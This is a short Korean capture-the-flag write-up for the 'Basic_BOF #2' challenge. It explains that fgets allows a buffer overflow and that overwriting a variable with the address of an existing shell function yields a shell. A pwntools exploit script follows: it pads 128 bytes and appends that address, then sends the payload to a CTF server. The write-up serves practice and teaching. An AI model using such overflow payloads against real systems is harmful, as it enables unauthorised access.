


# Basic_BOF #2

    
IDA로 분석해보면, fgets 함수에서 bof가 발생하는 것을 알 수 있다.   
<br/>

   
또한 shell을 실행시켜주는 함수가 따로 존재한다.   
<br/>

따라서 v5를 shell함수로 덮어주면 shell을 획득할 수 있다.   
<br/>

```
from pwn import *

e = ELF('./bof_basic2')
p = remote('ctf.j0n9hyun.xyz', 3001)

shell = e.symbols['shell']

payload = ''
payload += 'A'*128
payload += p32(shell)

p.send(payload)
p.interactive()
```
